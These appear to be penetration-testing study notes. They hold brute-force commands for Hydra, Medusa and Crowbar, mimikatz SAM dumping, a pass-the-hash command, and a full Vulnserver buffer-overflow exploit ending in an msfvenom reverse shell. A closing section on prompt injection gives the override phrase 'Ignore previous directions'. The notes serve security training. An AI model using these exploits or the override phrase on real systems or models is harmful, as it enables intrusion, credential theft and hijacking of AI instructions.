- [Medusa](http://h.foofus.net/?page_id=51)
- [Spray](https://github.com/Greenwolf/Spray)
- [Crowbar](https://github.com/galkan/crowbar)
- [THC Hydra](https://github.com/vanhauser-thc/thc-hydra)

#### [Medusa](http://h.foofus.net/?page_id=51), HTTP htaccess Attack

- `medusa -d` All the protocols medusa can interact with
- ` medusa -h 10.11.0.5 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin`
  - `-m` htaccess-protected URL
  - `-h` target host
  - `-u` attack the admin user
  - `-P` wordlist file
  - `-M` HTTP authentication scheme

#### [Crowbar](https://github.com/galkan/crowbar), Remote Desktop Protocol Attack

- `crowbar --help`
- `crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1`
  - `-b` specify the protocol
  - `-s` target server
  - `-u` username
  - `-c` wordlist
  - `-n` number of threads

#### [THC Hydra](https://github.com/vanhauser-thc/thc-hydra), SSH Attack

- `hydra`
- `hydra -l user -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1`
  - `-l` specify the target username
  - `-P` specify a wordlist
  - `protocol://IP` o specify the target protocol and IP address respectively

#### [THC Hydra](https://github.com/vanhauser-thc/thc-hydra), HTTP POST Attack

- `hydra http-form-post -U`
- `hydra 10.11.0.22 http-form-post "/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN" -l admin -P /usr/share/wordlists/rockyou.txt -vV -f`
  - `-l` user name
  - `-P` wordlist
  - `-vV` verbose output
  - `-f` stop the attack when the first successful result is found
  - supply the service module name `http-form-post` and its required arguments `/form/frontpage.php:user=admin&pass=^PASS^:INVALID LOGIN`

#### <ins>Leveraging Password Hashes</ins>

**Tools**
- [Sample password hash encoding strings](https://openwall.info/wiki/john/sample-hashes)
- [hashID](https://psypanda.github.io/hashID/)
  - `hashid c43ee559d69bc7f691fe2fbfe8a5ef0a`
- [mimikatz](https://blog.3or.de/mimikatz-deep-dive-on-lsadumplsa-patch-and-inject.html)
- [fgdump](http://foofus.net/goons/fizzgig/fgdump/downloads.htm)
- [Credential Editor](https://www.ampliasecurity.com/research/windows-credentials-editor/)
- [pth-winexe](https://github.com/byt3bl33d3r/pth-toolkit)
- [Responder.py](https://github.com/SpiderLabs/Responder)

**Notes**
- On most Linux systems, hashed passwords are stored in the `/etc/shadow` file
- On Windows systems, hashed user passwords are stored in the Security Accounts Manager (SAM). Microsoft introduced the SYSKEY feature (Windows NT 4.0 SP3) to deter offline SAM database password attacks
- Windows NT-based systems, up to and including Windows 2003, store two different password hashes: LAN Manager (LM) (DES based) and NT LAN Manager (NTLM), wich uses MD4 hashing
- From Windows Vista on, the operating system disables LM by default and uses NTLM


#### mimikatz
1. `C:\Programs\password_attacks\mimikatz.exe`
2. `privilege::debug` enables the SeDebugPrivilge access right required to tamper with another process
3. `token::elevate` elevate the security token from high integrity (administrator) to SYSTEM integrity
4. `lsadump::sam` dump the contents of the SAM database

#### Pass-the-Hash
- See ["Pass the Hash Attack"](https://www.netwrix.com/pass_the_hash_attack_explained.html)
- [pth-winexe](https://github.com/byt3bl33d3r/pth-toolkit)
  - `pth-winexe -U offsec%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd`
    - `-U` specifying the user name and hash, along with the SMB share and the name of the command to execute


### <ins>Buffer Overflow</ins>

**Tools**
- [Immunity Debugger](https://www.immunityinc.com/products/debugger/) + [mona](https://github.com/corelan/mona)
- [Vulnserver](https://thegreycorner.com/vulnserver.html)
  - Note: usually, `<port vulnserver>` is `9999`
- [Kali](https://www.kali.org/)
- See also [Buffer Overflows Made Easy | The Cyber Mentor](https://www.youtube.com/playlist?list=PLLKT__MCUeix3O0DPbmuaRuR_4Hxo4m3G)
- [mingw-w64](https://www.mingw-w64.org/), a cross-compiler for programs written to be compiled in Windows. With it you can compile them in an OS like Linux
  - Example of usage: `i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32`

**Issues**
- From [Finding the right module](#finding-the-right-module) I had to use python2 instead of python3
- ["Problems attach Immunity to Vulnserver on Windows 10"](https://www.reddit.com/r/hacking/comments/ohg5t0/problems_attach_immunity_to_vulnserver_on_windows/): `Don't start vulnserver, start Immunity as Admin, File > Open > vulnserver.exe, push "play"`.

**Steps to conduct a Buffer Overflow**
1. [Spiking](#spiking)
2. [Fuzzing](#fuzzing)
3. [Finding the Offset](#finding-the-offset)
4. [Overwriting the EIP](#overwriting-the-eip)
5. [Finding bad characters](#finding-bad-characters)
6. [Finding the right module](#finding-the-right-module)
7. [Generating Shellcode](#generating-shellcode)

#### <ins>Spiking</ins>

`generic_send_tcp <IP Vulnserver> <port vulnserver> script.spk 0 0`

**Example: trun.spk**
```spike
s_readline();
s_string("TRUN ");
s_string_variable("0");
```

#### <ins>Fuzzing</ins>

```python
#!/usr/bin/python
import sys, socket
from time import sleep

buffer = "A" * 100

while True:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('<IP Vulnserver>', <port vulnserver>))
        s.send(('TRUN /.:/' + buffer).encode())
        
        s.close()
        sleep(1)
        buffer += "A" * 100
    except:
        print ("Fuzzing crashed at %s bytes" % str(len(buffer)))
        sys.exit()
```

#### <ins>Finding the Offset</ins>

1. Get the result from: `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <bytes_where_server_crashed>`
2. Modify the previous script in
   ```python
   #!/usr/bin/python
   import sys, socket
   from time import sleep
   
   offset = "RESULT_FROM_STEP_1"
   
   while True:
       try:
           s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
           s.connect(('<IP Vulnserver>', <port vulnserver>))
           s.send(('TRUN /.:/' + offset).encode())
           s.close()
       except:
           print ("Error connecting to the server")
           sys.exit()
   ```
3. After running the script, read the value from the EIP
4. With that value, run this script: `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q EIP_VALUE_STEP_2`

#### <ins>Overwriting the EIP</ins>

From the previous result, we should get the position `2003` for the start of the EIP. We can test this by sending `A * 2003` plus `B * 4` and see if `EIP = 42424242` (since `42424242` = `BBBB`).

```python
#!/usr/bin/python
import sys, socket
from time import sleep

shellcode = "A" * 2003 + "B" * 4

while True:
	try:
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(('<IP Vulnserver>', <port vulnserver>))
		s.send(('TRUN /.:/' + shellcode).encode())
		s.close()
	except:
		print ("Error connecting to the server")
		sys.exit()
```

#### <ins>Finding bad characters</ins>

**Bad characters**
```python
badchars = ("\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
```

```python
#!/usr/bin/python
import sys, socket
from time import sleep

badchars = ("\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

shellcode = "A" * 2003 + "B" * 4 + badchars

while True:
	try:
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(('<IP Vulnserver>', <port vulnserver>))
		s.send(('TRUN /.:/' + shellcode).encode())
		s.close()
	except:
		print ("Error connecting to the server")
		sys.exit()
```

1. After starting the script, once vulnserver breaks down, go in Immunity `Debugger` > `Registers` > Right-click on `ESP` > `Follow in Dump` > See `Hex dump`. 
2. Check if the Hex dump makes sence, e.g. in the Hex dump there is no number value missing.
   - Example: you may get a result like `... 01 02 03 B0 B0 06 07 08 ...`. As you can see, `04` and `05` are missing, so you've found a bad character.
3. Write down every character missing

#### <ins>Finding the right module</ins>

Note: `JMP ESP` will be used as the pointer to jump to the shellcode. With `nasm_shell.rb` with can get the hex equivalent to these commands.
```
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > JMP ESP
00000000  FFE4              jmp esp
```

On Immunity, using mona, type
1. `!mona modules` to get the module to use, one with no memory protection for vulneserver. In this case, `essfunc.dll`.
2. `!mona find -s "\xff\xe4" -m essfunc.dll`.
3. Look at `[+] Results:` the return addresses and select the first address with no memory protection, in this case `625011af`.
4. Use now the following python script with python2. Notice how the address `625011af` is in reverse in `shellcode`
   ```python
   #!/usr/bin/python
   import sys, socket
   from time import sleep
   
   shellcode = "A" * 2003 + "\xaf\x11\x50\x62"
   
   while True:
   	try:
   		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
   		s.connect(('<IP Vulnserver>', <port vulnserver>))
   		s.send('TRUN /.:/' + shellcode)
   		s.close()
   	except:
   		print "Error connecting to the server"
   		sys.exit()
   ```
   - Before launching the script, in Immunify click on `Enter expression to follow` > insert `625011af` > Click on it > press `F2` to inser a breakpoint
   - Using python3, you may need to change the value for `shellcode` in `"A" * 1996 + "\x84\xaf\x11\x50\x62\xaf\x11\x50\x62\x84"`

#### <ins>Generating Shellcode</ins>

1. Copy the result from `msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"`
   - Always note the payload size
2. See the following script (use python2). Note: `shellcode` also contains `"\x90" * 32`. Those are NOPs, some padding to make sure that our code gets executed.
   ```python
   #!/usr/bin/python
   import sys, socket
   from time import sleep
   
   overflow = (HERE INSERT THE RESULT FROM THE STEP 1, THE VALUE IN unsigned char buf[])
   
   shellcode = "A" * 2003 + "\xaf\x11\x50\x62" + "\x90" * 32 + overflow
   
   while True:
   	try:
   		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
   		s.connect(('<IP Vulnserver>', <port vulnserver>))
   		s.send('TRUN /.:/' + shellcode)
   		s.close()
   	except:
   		print "Error connecting to the server"
   		sys.exit()
   ```
3. Use the command `nc -nvlp 4444`
4. Run the script, notice the shell in netcat


## Artificial intelligence vulnerabilities

### <ins>Prompt Injection</ins>

**Prompt Injection** is when an AI that follows textual instructions (a "prompt") to complete a job gets deceived by hostile, adversarial human input to do a task that was not its original goal. To test it, inject the text `Ignore previous directions`.

Some examples:
- ["Exploiting GPT-3 prompts with malicious inputs that order the model to ignore its previous directions"](https://twitter.com/goodside/status/1569128808308957185)
- ["OpenAI’s ChatGPT is susceptible to prompt injection — say the magic words, “Ignore previous directions”, and it will happily divulge to you OpenAI’s proprietary prompt"](https://twitter.com/goodside/status/1598253337400717313)
- [Exploring Prompt Injection Attacks](https://research.nccgroup.com/2022/12/05/exploring-prompt-injection-attacks/)
